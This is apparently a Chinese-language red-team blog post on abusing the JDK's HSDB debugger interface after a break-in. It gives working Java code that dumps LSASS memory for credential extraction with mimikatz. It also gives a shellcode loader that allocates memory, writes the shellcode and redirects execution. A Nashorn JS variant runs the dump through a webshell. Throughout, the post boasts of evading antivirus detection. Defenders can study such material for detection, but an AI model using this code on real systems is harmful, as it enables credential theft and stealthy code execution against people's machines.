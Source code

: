 # JVM HSDB在后渗透中的利用



<meta name="referrer" content="no-referrer" />



## 背景
HSDB（Hotspot Debugger)，是JDK自带的调试工具，可用于调试JVM 运行时数据。
最近在学习Beichen师傅《JVM核心对抗》PPT的时候，注意到提到了HSDB的一个玩法：利用其中的windbg调试接口进行dump lsass以及加载Shellcode操作，本文进行学习以及一些武器化利用扩展。
## dump lsass
> lsass是windows中处理本地安全和登录策略的重要进程，几乎所有的windows身份认证程序都离不开lsass进程。因此在lsass的内存中会保存用户相关的凭证。它是windows主机中凭证的重要组成部分，因此获取lsass内存也是MITRE ATT&CK框架中Credential Access战术下的重要技术点。


由于许多带签名的正常程序都需要用到内存dump功能，让用户能查看进程在内存中的信息，所以以往的对抗主要是通过一些常见的白进程签名程序，利用程序的正常功能来获取windows lsass中的内存。不过由于用得太多了，基本都已经被各大杀软所监控标记。今天的HSDB属于一个新的小众白名单利用。
核心原理是JVM在调试进程的时候，会调用windbg接口，并且支持输入自定义的windbg语句，从而实现dump lsass
具体代码
```
public static void dumper(int pid, String path) {
      WindbgDebuggerLocal debuggerLocal = new WindbgDebuggerLocal(new MachineDescriptionAMD64(), false);
      debuggerLocal.attach(pid);
      System.out.println(debuggerLocal.consoleExecuteCommand(".dump /ma " + path));
      debuggerLocal.detach();
  }
```
打包个jar运行，发现已经成功dump了lsass
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1698730877981-989fa672-787d-47ad-b48b-e4c421491302.png#averageHue=%232f3029&clientId=ud42243de-4178-4&from=paste&height=112&id=R0vHl&originHeight=224&originWidth=1648&originalType=binary&ratio=2&rotation=0&showTitle=false&size=220432&status=done&style=none&taskId=ueb886ba4-b040-4d9e-9f4a-7601b779bd5&title=&width=824)
然后用mimikatz dump出其中的凭证
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1698731011215-e666e691-1ced-4bb1-9e6f-07e4802358cb.png#averageHue=%232c2d27&clientId=ud42243de-4178-4&from=paste&height=453&id=u9d7def08&originHeight=906&originWidth=1764&originalType=binary&ratio=2&rotation=0&showTitle=false&size=733551&status=done&style=none&taskId=ue426a5c5-384d-4118-a94a-23325cf6063&title=&width=882)
VT 0/62
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1698733301130-93045bc5-f069-4399-a61f-4b9514a49621.png#averageHue=%23fdfdfc&clientId=ud42243de-4178-4&from=paste&height=659&id=x4tn5&originHeight=1318&originWidth=2632&originalType=binary&ratio=2&rotation=0&showTitle=false&size=1561148&status=done&style=none&taskId=ufd4f2298-b45f-4327-9a45-16034facd00&title=&width=1316)
免杀360无告警
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1698738045044-21dfd2bc-5a50-4924-ac99-29f7bf1a8f30.png#averageHue=%23f0e7da&clientId=ud42243de-4178-4&from=paste&height=719&id=SQzbw&originHeight=1438&originWidth=1816&originalType=binary&ratio=2&rotation=0&showTitle=false&size=1604191&status=done&style=none&taskId=ud63dff27-7cfd-4795-a8c6-84ce84d9525&title=&width=908)

为了对比测试，继续跑一下已经公开过的白利用。360告警拦截，dump提示拒绝访问。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1698738201229-bc82b876-27a7-4fc0-908d-ba107e6aaf9e.png#averageHue=%23a38a80&clientId=ud42243de-4178-4&from=paste&height=395&id=CFIsX&originHeight=790&originWidth=1462&originalType=binary&ratio=2&rotation=0&showTitle=false&size=756525&status=done&style=none&taskId=u41ef6e95-5d2e-48c2-aaaf-004bbc94295&title=&width=731)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1698738338808-22b73acc-06a1-4144-814e-71c1d69aa558.png#averageHue=%23090807&clientId=ud42243de-4178-4&from=paste&height=286&id=Biqsg&originHeight=572&originWidth=1448&originalType=binary&ratio=2&rotation=0&showTitle=false&size=392874&status=done&style=none&taskId=ua4118c8e-b830-43bf-8ee1-a1550523a65&title=&width=724)

## 加载ShellCode
windbg是一款很强大的调试工具，我们还可以利用该接口进行ShellCode的加载。基本流程：

- 申请内存
- 写入Shellcode
- 修改当前运行指针到Shellcode位置

Beichen师傅的PPT里没有贴写入Shellcode的实现代码，这里其实有很多种方式，我这里采用eb命令实现。其实用Unsafe也可以，但是Unsafe特征比较明显。
核心代码
```
public static void Runshellcode(int pid, String shellcode) {
      WindbgDebuggerLocal debuggerLocal = new WindbgDebuggerLocal(new MachineDescriptionAMD64(), false);
      debuggerLocal.attach(pid);
      System.out.println(shellcode.length());
      String result = debuggerLocal.consoleExecuteCommand(".dvalloc 10000");
      String addressToken = "starting at ";
      System.out.println(result);
      int index = result.indexOf(addressToken);
      String address = result.substring(index + addressToken.length()).trim();
      String s1 = debuggerLocal.consoleExecuteCommand("eb " + address + " " + hexFormat(shellcode));
      System.out.println(s1);
      String s2 = debuggerLocal.consoleExecuteCommand("r @$ip=" + address);
      System.out.println(s2);
      debuggerLocal.detach();
  }
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1698807444120-2cd766e8-1007-4fd8-abf5-9b7cac14c7f4.png#averageHue=%23f8f8f7&clientId=u3da0789b-e43b-4&from=paste&height=601&id=u637527b4&originHeight=1202&originWidth=2198&originalType=binary&ratio=2&rotation=0&showTitle=false&size=1401804&status=done&style=none&taskId=u6039d039-cb9c-4964-9e71-1aeb1c4f2e8&title=&width=1099)
同样秒过3xx。

![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1698808051629-b992211f-eb1b-47b7-8a21-5929e2f6d0e7.png#averageHue=%23e4d9c7&clientId=u3da0789b-e43b-4&from=paste&height=808&id=uf8e27072&originHeight=1616&originWidth=1940&originalType=binary&ratio=2&rotation=0&showTitle=false&size=1938729&status=done&style=none&taskId=u72a25947-6989-4649-8563-37b8858de8a&title=&width=970)
当然这里只是注入方式不被查杀，如果是cs或者msf还要改一下内存特征。
## 可能遇到的报错
必须是JDK下的jre运行才可以，否则可能会产生以下报错
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1698733438742-7fc8f7db-3a51-4277-a3c9-a5758914b0bf.png#averageHue=%232e2e28&clientId=ud42243de-4178-4&from=paste&height=156&id=ZE61R&originHeight=312&originWidth=2008&originalType=binary&ratio=2&rotation=0&showTitle=false&size=330354&status=done&style=none&taskId=u8f47058d-fca3-4f5d-86d0-783ff687943&title=&width=1004)
解决办法：复制jdk下的dll到对应目录下
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1698740221185-d21dbb6e-549b-4b67-9784-773a4f6bf986.png#averageHue=%23f5f4f3&clientId=ud42243de-4178-4&from=paste&height=253&id=XmAor&originHeight=506&originWidth=1364&originalType=binary&ratio=2&rotation=0&showTitle=false&size=354796&status=done&style=none&taskId=uc75219ae-4452-4015-855d-3d567a233a3&title=&width=682)
[https://blog.csdn.net/fl_zxf/article/details/42689569](https://blog.csdn.net/fl_zxf/article/details/42689569)
## 单文件执行
不同版本的sa-jdi可能不一样，如果选择jar方式的话要打包跟目标JDK环境一致的依赖，这样有点麻烦。
除了打一个jar包以外，还可以单文件执行
```
java -cp ".;c:\\xxxxx\\sa-jdi.jar" Exp
```
## As-Exploits无文件利用
想要在WebShell中利用需要满足两点：

1. 加载sa-jdi.jar到ClassLoader
2. 加载调用逻辑

对于第一点，sa-jdi.jar在JDK中默认存在，不需要额外上传，只需要用JarLoader功能加载一下就可以了
第二点，在As-Exploits 1.5中新增了JS引擎执行模块，这里我采用了JS引擎来实现功能的调用。（当然写个Class编译然后再defineClass加载也可以，稍微有点麻烦）
将payload改写为nashorn语法，跑一下看起来没问题
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1698732848154-0d8de35e-324c-490c-b6d9-2cbb16d1a6c8.png#averageHue=%23fafaf9&clientId=ud42243de-4178-4&from=paste&height=649&id=kS1A6&originHeight=1298&originWidth=2084&originalType=binary&ratio=2&rotation=0&showTitle=false&size=1265444&status=done&style=none&taskId=ucac6650b-ff67-4e0f-90ec-9c4f950143a&title=&width=1042)
```
var windbg = Java.type("sun.jvm.hotspot.debugger.windbg.WindbgDebuggerLocal");
var desc = Java.type("sun.jvm.hotspot.debugger.MachineDescriptionAMD64");
var debuggerLocal = new windbg(new desc(), false);
debuggerLocal.attach(784);
java.lang.System.out.println(
  debuggerLocal.consoleExecuteCommand(".dump /ma ./dsds")
);
debuggerLocal.detach();

```
具体操作：
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1699172636729-a4bc3281-9e97-45d6-ae26-26f8bddca5b7.png#averageHue=%23f6f6f6&clientId=u435397dc-e56a-4&from=paste&height=606&id=ud545900c&originHeight=757&originWidth=1078&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=36397&status=done&style=none&taskId=u86fae59a-f65e-4e22-841d-53193f54c16&title=&width=862.4)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1699172728652-0f28a499-7749-40da-9d0d-0a443f421bad.png#averageHue=%23f4f4f4&clientId=u435397dc-e56a-4&from=paste&height=613&id=u8cb01b08&originHeight=766&originWidth=1065&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=48285&status=done&style=none&taskId=u07a05dcc-9c63-4c3d-acb8-80314bba9c5&title=&width=852)
到目录界面看，dump文件已经生成了
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1699172850022-9b440520-cad1-44fb-b953-a920048efb4c.png#averageHue=%23cadef8&clientId=u435397dc-e56a-4&from=paste&height=40&id=u59d98925&originHeight=50&originWidth=933&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=4098&status=done&style=none&taskId=uaac0df8c-569d-49a9-805d-b269c7ddac0&title=&width=746.4)
